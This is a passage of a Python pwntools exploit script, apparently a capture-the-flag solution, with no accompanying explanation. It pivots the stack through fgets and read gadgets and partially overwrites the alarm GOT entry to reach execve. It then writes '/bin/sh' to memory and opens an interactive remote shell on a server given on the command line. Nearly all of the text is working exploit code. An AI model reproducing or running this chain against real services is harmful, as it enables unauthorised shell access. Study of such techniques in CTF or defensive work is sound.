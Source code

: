 ``` python
    lib = ELF(LIBRARY)

    # fgets(0x4047a0, 0x74, stdin)
    payload = b"A" * 0x60
    payload += p64(0x404800)                # rbp = 0x404800
    payload += p64(0x401196)                # middle of fgets
    payload += b"\x00\x00\x00"              # dummy
    
    s.send(payload)
    sleep(0.5)

    # read(0, alarm.got, 8) ; alarm.got = 0x404008
    # rdi = 0, rsi = alarm.got, rdx = 8
    payload = p64(elf.got['alarm'] + 8)     # alarm.got + 8
    payload += p64(0x401172)                # middle of read

    # read(0, 0x404900, 8) ; &0x404900 = "/bin/sh\x00"
    pop_rbp = 0x401168
    payload += p64(pop_rbp)
    payload += p64(0x404908)                # 0x404900 + 8
    payload += p64(0x401172)
    
    # execve("/bin/sh", 0, 0)
    # rdi = 0x404900, rsi = 0, rdx = 0
    mov_rdi_rsi = 0x40115a
    pop_rsi = 0x401165
    payload += p64(mov_rdi_rsi)
    payload += p64(pop_rsi)
    payload += p64(0)
    payload += p64(elf.plt['alarm'])

    payload += b"B" * (0x60 - len(payload))
    payload += p64(0x4047a0)
    payload += p64(0x401190)
    payload += b"\x00\x00\x00"
    log.info(f"payload len : {hex(len(payload))}")

    s.send(payload)
    sleep(0.5)

    # read(0, alarm.got, 8)
    payload = b"\x80\xb0"
    # payload = b"\x80\x50"
    s.send(payload)
    sleep(0.5)

    # read(0, 0x404900, 8)
    payload = b"/bin/sh\x00"
    s.send(payload)
    sleep(0.5)

    s.interactive()

if __name__=='__main__':
    parser = ArgumentParser()
    parser.add_argument('-s', '--server', type=str, default="0.0.0.0")
    parser.add_argument('-p', '--port', type=int)
    parser.add_argument('-d', '--debug', type=int, default=1)
    args = parser.parse_args()
    main(args.server, args.port, args.debug)
```
